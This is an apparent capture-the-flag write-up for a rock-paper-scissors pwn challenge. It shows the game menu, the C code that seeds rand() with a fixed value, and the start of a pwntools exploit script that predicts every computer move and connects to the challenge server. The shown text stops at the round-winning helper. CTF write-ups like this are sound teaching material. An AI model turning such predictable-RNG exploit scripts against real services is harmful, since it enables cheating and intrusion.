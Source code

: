 Source code is provided, so I'll be skipping on the usual decompilation effort.

## Bugs

```c
+===============================================+
|   Wellcome to my Rock-Paper-Scissors's game   |
+-----------------------------------------------+
| Current score:
| NOOB player: 0 Points
| Computer: 0 Points
+-----------------------------------------------+
| Options:
| 1) Display game rules ------------- (0 Points)
| 2) Play next round ---------------- (0 Points)
| 3) Skip N rounds ------------------ (2 Points)
| 4) Enable Ascii-art --------------- (3 Points)
| 5) Change user name --------------- (5 Points)
| 6) Print the flag! ------- (4294967295 Points)
| 7) Exit --------------------------- (0 Points)
+-----------------------------------------------+
| Please chose an option [ ]
```

The challenge provided is a simple rock-paper-scissors simulator, limited to `ARRAY_OF_PLAYS_MAX_SIZE == 170` rounds. When the game starts, the program will initialize the 170 moves the computer plans to play using `rand()/srand()`:

```c
    // initializing pseudo-random values and populate array_of_plays
    srand(0);
    for(uint8_t i = 0; i < ARRAY_OF_PLAYS_MAX_SIZE; i++)
    {
        game_ctx->array_of_plays[i].id = i;
        game_ctx->array_of_plays[i].handsign = (rand() % MAX_HANDSIGNS) + MIN_HANDSIGN;
        game_ctx->array_of_plays[i].animation_function = print_ascii;
    }
```

`rand()` is [predictable](https://github.com/Naetw/CTF-pwn-tips#predictable-rngrandom-number-generator), and we can win every round of Rock-Paper-Scissors with 100% accuracy:

```python
from pwn import *
context.binary = 'game'
from ctypes import CDLL
clib = CDLL('libc.so.6')
clib.srand(0)
ARRAY_OF_PLAYS_MAXSIZE = 170
array_of_plays = [clib.rand()%3 for _ in range(ARRAY_OF_PLAYS_MAXSIZE)]
current_play = 0

r = remote('cop.ichsa.ctf.today', 8011)
def choose(opt: int):
    r.recvuntil('[ ]\b\b')
    r.sendline(str(opt))
def win_round():
    global current_play
    choose(2)
    r.recvuntil('[ ]\b\b')
    cpu_play = array_of_plays[current_play]
    current_play += 1
    user_play = {0:1, 1:2, 2:0}[cpu_play]+1
    r.sendline(str(user_play))
```

